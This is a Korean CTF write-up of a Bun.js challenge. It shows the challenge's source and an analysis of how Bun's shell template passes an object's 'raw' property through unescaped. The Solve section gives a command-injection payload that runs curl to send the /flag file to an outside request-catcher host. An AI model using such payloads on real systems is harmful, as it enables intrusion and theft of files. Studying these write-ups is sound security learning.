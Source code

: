 # 키워드
- bunjs
- SSRF
- Curl

# 코드
```js
import {$, escapeHTML} from "bun";
import qs from "qs";

const port = process.env.PORT || 3000;
const logFile = process.env.LOGFILE || ".log";

const server = Bun.serve({
    host: "0.0.0.0",
    port: port,
    async fetch(req) {
        const url = new URL(req.url);
        if (url.pathname === "/chall") {
            const params = qs.parse(url.search, {ignoreQueryPrefix: true});
            if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
                return new Response("sorry, but the given URL is too complex for me");
            }

            const lyURL = new URL(params.url, "https://www.lycorp.co.jp");
            if (lyURL.origin !== "https://www.lycorp.co.jp") {
                return new Response("don't you know us?");
            }

            const rawFetched = await $`curl -sL ${lyURL}`.text();
            const counts = {
                "L": [...rawFetched.matchAll(/LINE/g)].length,
                "Y": [...rawFetched.matchAll(/Yahoo!/g)].length,
            }
            await $`echo $(date '+%Y-%m-%dT%H:%M:%S%z') - ${params.url} ::: ${JSON.stringify(counts)} >> ${logFile}`;

            const highlighted = escapeHTML(rawFetched)
                .replace(/LINE/g, "<mark style='color: #06C755'>$&</mark>")
                .replace(/Yahoo!/g, "<mark style='color: #FF0033'>$&</mark>");
            const html = `
                <h1>Your score is... 🐐<${counts.L + counts.Y}</h1>
                <details open>
                    <summary>Result</summary>
                    <blockquote>${highlighted}</blockquote>            
                </details>
            `;
            return new Response(html, {headers: {"Content-Type": "text/html; charset=utf-8"}});
        } else {
            return new Response("🎶😺≡≡≡😺🎶 Happy Happy Happy~")
        }
    }
});

console.log(`😺 on http://localhost:${server.port}`);
```


# 분석
- 일단 기본적인 기능은 어떤 주소를 입력 받고 해당 주소에 있는 페이지에서 `"LINE"`, `"Yahoo!"`라는 문자열의 개수를 세는 간단한 페이지임
- 그런데 뒤에서 페이지 정보를 가져온 결과를 로그파일로 저장함
- 페이지 정보를 가져오는 방법은 [bunjs]([https://github.com/oven-sh/bun/blob/ee5fd51e885f16848f8e99a7c8a57e14b4a0d62e/src/shell/shell.zig](https://github.com/oven-sh/bun/blob/ee5fd51e885f16848f8e99a7c8a57e14b4a0d62e/src/shell/shell.zig "https://github.com/oven-sh/bun/blob/ee5fd51e885f16848f8e99a7c8a57e14b4a0d62e/src/shell/shell.zig"))라는 js 런타임 환경에서 `curl` 명령어를 실행시키는 방식

### bunjs
- `$`라는 키워드(?)로 템플릿을 처리하는데, 해당 동작 방식을 분석함
- 난생 처음보지만 `zig`라는 언어로 작성되어 있음
- 흥미로운 부분은 `raw`라는 property인데, `Object`가 `$shell`에 들어오면 string으로 사용함
```zig
if (template_value.isObject()) {
	if (template_value.getTruthy(globalThis, "raw")) |maybe_str| {
		const bunstr = maybe_str.toBunString(globalThis);
		defer bunstr.deref();
		if (!try builder.appendBunStr(bunstr, false)) {
			globalThis.throw("Shell script string contains invalid UTF-16", .{});
			return false;
		}
		return true;
	}
}
```


# Solve
- 문제 풀기 당시 노트북이었어서 서버를 만들기 힘들어서 걍 드림핵을 사용
- `curl` 사용할 때 `-F` 옵션으로 파일명 앞에 `@`를 사용하면 해당 파일의 내용을 출력해 줌
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```

